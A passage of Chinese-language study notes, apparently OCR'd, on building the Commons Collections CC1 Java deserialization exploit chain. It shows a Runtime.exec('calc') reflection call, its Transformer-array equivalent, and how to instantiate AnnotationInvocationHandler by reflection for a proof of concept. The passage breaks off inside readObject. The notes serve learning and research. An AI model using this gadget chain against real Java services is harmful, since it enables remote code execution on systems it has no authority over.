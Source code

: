   ```
            import java.io.IOException;
            import java.lang.reflect.InvocationTargetException;
            import java.lang.reflect.Method;
            
            public class CC1 {
                public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, IOException {
                    Class runtimeClass = Runtime.class;
                    Method method = runtimeClass.getMethod("getRuntime", null);
                    Runtime r = (Runtime) method.invoke(null, null);
                    r.exec("calc");
                }
            }
            ```

        - 转化为 Transformers 就是:

            - ```java
                Transformer[] transformers = new Transformer[]{
                                new ConstantTransformer(Runtime.class),
                                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})};
                        }
                ```

- AnnotationInvocationHandler 类是非 public 的，如何引入呢（不引入没法写poc）？

    - **反射调用就行**

    - ```java
        AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
                Class<?>[] superInterfaces = type.getInterfaces();
                if (!type.isAnnotation() ||
                    superInterfaces.length != 1 ||
                    superInterfaces[0] != java.lang.annotation.Annotation.class)
                    throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
                this.type = type;
                this.memberValues = memberValues;
            }
        ```

    - 其构造器是要传入一个 Annotation 子类（注解类）的 class 对象 type 和一个 map 对象 memberValues(我们传入构造好的 TransformedMap)。

    - 先来看 readObject()的前半段：

        - ```java
            private void readObject(java.io.ObjectInputStream s)
                    throws java.io.IOException, ClassNotFoundException {
                    s.defaultReadObject();
            
                    // Check to make sure that types have not evolved incompatibly
            
                    AnnotationType annotationType = null;
                    try {
                        annotationType = AnnotationType.getInstance(type);
                    } catch(IllegalArgumentException e) {
  ```